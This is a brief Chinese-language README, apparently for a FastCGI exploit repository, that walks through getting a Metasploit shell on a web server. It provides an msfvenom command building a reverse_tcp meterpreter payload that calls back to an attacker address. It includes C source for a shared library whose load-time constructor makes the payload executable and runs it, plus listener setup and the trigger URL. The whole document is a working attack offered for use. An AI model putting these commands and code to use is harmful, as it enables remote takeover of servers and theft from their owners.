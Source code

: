> exp代码来自互联网

## 上线msf

### msfvenom生成payload

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.111 LPORT=9999 -f elf > test
```

### 编译so

```
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
__attribute__ ((__constructor__)) void preload (void)
{
    system("chmod +x /var/www/html/test && /var/www/html/test");
}
```

### msf监听

```
> use exploit/multi/handler
> set payload linux/x86/meterpreter/reverse_tcp
> set LHOST 192.168.0.111
> set LPORT 9999
> exploit
```

### 运行exp

```
http://192.168.0.111:18080/exp.php
```

(exp.php里的路径根据实际情况修改)

![image-20201226113404523](D:\phpstudy_pro\WWW\Fastcgi-exp\img\image-20201226113404523.png)